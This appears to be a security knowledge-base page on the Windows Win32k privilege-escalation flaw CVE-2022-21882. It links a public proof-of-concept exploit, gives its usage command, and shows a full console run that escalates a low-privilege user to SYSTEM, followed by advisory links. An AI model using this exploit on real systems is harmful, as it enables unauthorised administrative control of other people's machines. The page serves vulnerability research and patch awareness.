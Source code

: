 ```yaml
---
title : "CVE-2022-21882"
# pre : ' '
description : "Win32k Elevation of Privilege Vulnerability."
date : 2022-01-30T15:48:19+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2021-1732 / CVE-2022-21882 - The revive of CVE-2021-1732

Win32k Elevation of Privilege Vulnerability. The Win32k elevation of privilege vulnerability was fixed this month as part of the January 2022 Patch Tuesday, it is the result of a bypass for the previously CVE-2021-1732 flaw that allows anyone to gain admin privileges in Windows 10.

## Installation

Build your own `.exe` from [source](https://github.com/KaLendsi/CVE-2022-21882).

## Usage

```plain
CVE-2021-1732.exe whoami
```

## Examples

```plain
Microsoft Windows [Version 10.0.17763.107]
(c) Microsoft Corporation. All rights reserved.

C:\Users\lowpriv> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
JohnDo
The command completed successfully.

C:\Users\lowpriv> whoami
desktop-qiv0pbc\lowpriv

C:\temp>CVE-2021-1732.exe whoami
CreateWnd
Hwnd:000b014a   qwfirstEntryDesktop=000001966C345110
BaseAddress:000001966C345000   RegionSize=:000000000001A000
Hwnd:00050406   qwfirstEntryDesktop=000001966C3431C0
BaseAddress:000001966C343000   RegionSize=:000000000001C000
Hwnd:000903b2   qwfirstEntryDesktop=000001966C342A20
BaseAddress:000001966C342000   RegionSize=:000000000001D000
Hwnd:000300d8   qwfirstEntryDesktop=000001966C342B70
BaseAddress:000001966C342000   RegionSize=:000000000001D000
Hwnd:0013016c   qwfirstEntryDesktop=000001966C341B90
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:00050414   qwfirstEntryDesktop=000001966C341CE0
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:0005017c   qwfirstEntryDesktop=000001966C341E30
BaseAddress:000001966C341000   RegionSize=:000000000001E000
Hwnd:000502da   qwfirstEntryDesktop=000001966C356830
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Hwnd:00020384   qwfirstEntryDesktop=000001966C356980
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Hwnd:000203ac   qwfirstEntryDesktop=000001966C356AD0
BaseAddress:000001966C356000   RegionSize=:0000000000009000
Min BaseAddress:000001966C341000   RegionSize=:000000000001E000
realMagicHwnd=00000000000303AC
Free ExtraBytes:000000000000124D
set ExtraData == 00000000000431C0
Free ExtraBytes:000000000000124D
dwRet=000000000000FA90
tagWndMin_offset_0x128=000000000000FA90
g_qwvuln=FFFFB73700826960
qwFrist read=FFFFB73700831E70
qwSecond read=FFFFC98914160810
qwSecond read=FFFFB73701A00000
qwFourth read=FFFFB737017F8010
qwFifth read=FFFFC989207F2080
qwSixth read=FFFFC98921421300
[*] Trying to execute whoami as SYSTEM
[+] ProcessCreated with pid 11296!
===============================
nt authority\system
```

## URL List

- [Github.com - CVE-2022-21882](https://github.com/KaLendsi/CVE-2022-21882)
- [Nvd.nist.gov - CVE-2021-1732](https://nvd.nist.gov/vuln/detail/CVE-2021-1732)
- [Securityaffairs.co - Expert releases PoC for CVE-2022-21882 Windows local privilege elevation issue](https://securityaffairs.co/wordpress/127377/hacking/cve-2022-21882-win-local-privilege-elevation.html)
- [Twitter.com - @kalendsi](https://twitter.com/kalendsi/status/1483770845138804738)
- [Twitter.com - @0x6d69636b](https://twitter.com/0x6d69636b/status/1486960626220118017?s=11)
- [Nvd.nist.gov - CVE-2022-21882](https://nvd.nist.gov/vuln/detail/CVE-2022-21882)
- [Portal.msrc.microsoft.com - Win32k Elevation of Privilege Vulnerability](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2022-21882)
